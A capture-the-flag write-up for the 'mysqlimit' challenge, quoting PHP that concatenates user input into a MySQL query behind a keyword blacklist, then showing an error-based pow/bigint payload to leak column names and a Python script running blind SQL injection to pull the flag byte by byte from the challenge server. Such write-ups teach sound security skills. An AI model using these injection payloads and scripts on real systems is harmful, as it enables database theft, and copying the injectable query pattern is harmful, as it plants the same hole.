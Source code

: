 # mysqlimit
> Limit 'Em All!

Relevant source
```php
if !(preg_match('/union|and|or|on|cast|sys|inno|mid|substr|pad|space|if|case|exp|like|sound|produce|extract|xml|between|count|column|sleep|benchmark|\<|\>|\=/is' , $_GET['id'])) {
    $id = mysqli_real_escape_string($conn, $_GET["id"]);
    $query = "select * from flag_here_hihi where id=".$id;
    $run_query = mysqli_query($conn,$query);

    if(!$run_query) {
        echo mysqli_error($conn);
    }
    else
    {    
        // I'm kidding, just the name of flag, not flag :(
        echo '<br>';
        $res = $run_query->fetch_array()[1];
        echo $res; 
    }
}
```

The code puts our input into a mysql query (only a single statement is allowed in these btw) and runs it, returning the 2nd column of the first row of input. The comment hints the flag is in another column.

We have SQL injection with a very strict filter. Although "exp" is filtered we can still use the bigint error message to get field names and semi-blind sql injection to exfiltrate flag bytes one by one.

The blind SQL injection technique I used was to extract each byte as a time with RIGHT and LEFT then use ASCII to convert it into a number. We then divide it by a guess such that if our guess is the same it will be equal to `1` and cause the overall query to select id=1.

ray will speed up the checking for us.

```python3
import requests
import ray

ray.init(include_dashboard=False)

base = "http://45.77.255.164/?id=ASCII(RIGHT(LEFT((SELECT t_fl4g_v3lue_su FROM flag_here_hihi LIMIT 1),%d),1))/%d"
s = requests.Session()

@ray.remote
def guess_char(pos, guess):
    res = s.get(base % (pos,guess))
    if 'handsome_flag' in res.text:
        return guess, True
    return guess, False

flag = "T"

while flag[-1] != "}":
    jobs = []
    for guess in range(0x20,0x7F):
        jobs.append(guess_char.remote(len(flag)+1, guess))
    while len(jobs) > 0:
        ready, jobs = ray.wait(jobs)
        res = ray.get(ready)
        print(res)
        fl = list(filter(lambda x: x[1] == True, res))
        if len(fl) > 0:
            break
    for o in jobs: ray.cancel(o,force=True)
    flag += chr(fl[0][0])
    print(flag)

print(flag)
```

```
http://45.77.255.164/?id=pow(~(SELECT%20id%20FROM%20(SELECT%20*%20FROM%20flag_here_hihi%20LIMIT%201)%20AS%20a),9999)
DOUBLE value is out of range in 'pow(~((select `a`.`id` from (select `flag_here_hoho`.`flag_here_hihi`.`id` AS `id`,`flag_here_hoho`.`flag_here_hihi`.`t_fl4g_name_su` AS `t_fl4g_name_su`,`flag_here_hoho`.`flag_here_hihi`.`t_fl4g_v3lue_su` AS `t_fl4g_v3lue_su` from `flag_here_hoho`.`flag_here_hihi` limit 1) `a`)),9999)'

> python3 mysqlimit.py
TetCTF{_W3LlLlLlll_Pl44yYyYyyYY_<3_vina_*100*28904961445554#}
```
